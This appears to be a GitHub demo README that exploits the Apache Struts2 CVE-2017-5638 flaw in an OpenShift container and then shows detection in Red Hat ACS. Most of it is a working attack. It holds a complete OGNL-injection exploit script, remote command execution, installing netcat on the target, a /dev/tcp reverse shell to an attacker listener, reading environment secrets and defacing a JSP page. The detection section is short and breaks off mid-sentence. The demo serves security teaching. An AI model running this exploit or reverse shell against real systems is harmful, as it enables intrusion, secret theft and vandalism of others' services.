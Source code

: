 # Demo of Kubernetes Container Hack in OpenShift, and protection via Red Hat ACS

## Exloiting a Vulnerability

Exploiting the Apache Struts 2 Java web framework CVE.

### Setup Vulnerable Target Container

Deploy Pod with vulnerable version:
```bash
oc create -f vulnerable-pod.yaml
```

Access web application at http://<openshiftappsip>:30004.

### Attack Target Container

We are now going to use the Apache Struts 2 CVE to exploit the container using **Strutsshock**.

An invalid Content-Type header is passed into a request which throws an error. The error is not escaped properly which allows us to inject additional commands which will be performed on the target machine.

Create Python script for strutshock attack:

```bash
vi attack.py
```

Copy following script:

```python
import http.client
import urllib.error
import urllib.parse
import urllib.request


def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"
    try:
        headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
        request = urllib.request.Request(url, headers=headers)
        page = urllib.request.urlopen(request).read()
    except http.client.IncompleteRead as e:
        page = e.partial
    print(page)
    return page


if __name__ == '__main__':
    import sys

    if len(sys.argv) != 3:
        print("[*] str.py <url> <cmd>")
    else:
        print('[*]CVE: 2017-5638 - Apache Struts2 S2-045')
        url = sys.argv[1]
        cmd = sys.argv[2]
        print(("[*] cmd: %s\n" % cmd))
        exploit(url, cmd)
```

Execute command on target - Remote Command Execution (RCE):

```bash
python3 attack.py http://<openshiftappsip>:30004/ "whoami"
```

### Gain Reverse Shell Access

At this stage we can execute commands on the target machine. We want to go a step further by gaining a reverse shell into the container.

### Prepare to receive reverse shell

Firt we need to listen on the command and control server for a connection using netcat. 

```bash
nc -lnvp 4444
```

#### Get Reverse Shell on Target

From running a few commands we can see that the target vulnerable application is running as the root user on the target. This means we can do anything that we won't on the target and potentially on the host it is running on as well. We can also install any additional libraries that we need to setup command and control.

By running the following command we can see that it is running an old version of Debian Jessie:

```bash
python3 attack.py http://<openshiftappsip>:30004/ "apt-get update"
```

We can update the package manager sources so we can install additional libraries to exploit the target. We will install net can which will create a connection out to our command and control server.

```bash
python3 attack.py http://<openshiftappsip>:30004/ "sed -i \'s/deb.debian.org/archive.debian.org/g\' /etc/apt/sources.list"
python3 attack.py http://<openshiftappsip>:30004/ "apt-get update"
python3 attack.py http://<openshiftappsip>:30004/ "apt-get install -y --force-yes netcat"
```

Now that netcat is installed we can establish an outbound connection from our target to our command and control server. Since we are using port 443 it is likely that this traffic would be allowed outbound by the target's network:

```bash
python3 attack.py http://<openshiftappsip>:30004/ "bash -i >& /dev/tcp/<localip>/4444 0>&1"
```

We now have a reverse shell into the target.

Use the following in the command and control shell to allow clearing the console:
```bash
export TERM=xterm
```

We can see that this is a Docker host and running on Kubernetes:
```bash
ls -la
env
```

If we had mounted any secrets via Environment Variables we could now have access to them.

#### Make Changes to Target

Now that we have access we can make any change that we want to the system. This may include:

- Adding malware
- Creating a command and control server inside the target's network perimeter
- Deploying a worm
- Adding malware to their website being hosted
- Vandalizing the website
- Moving laterally within the target's network

The following can be used to make a change to the showcase screen which we have already found in our reconnaissance.

```bash
cd /usr/local/tomcat/webapps/ROOT
cat showcase.jsp
sed -i 's/Welcome!/You have been Hacked!/g' showcase.jsp
cat showcase.jsp
```

### Identifying the intrusion in ACS

In Central, click "Violations". 

![Alt text](Images/01.png)

You should be able to see "Shell Spawned by Java Application". This is the exploit and we can identify the vulnerable container by looking under the Entity column. The guilty party is "web" that is located in the default namespace. 

Under "Platform Configuration" in the left-hand menu, click on "Policy Management". In the search bar, search for Policy, then Shell. You should see "Shell Spawned by Java Application". Click the 3 dots on the right and select 
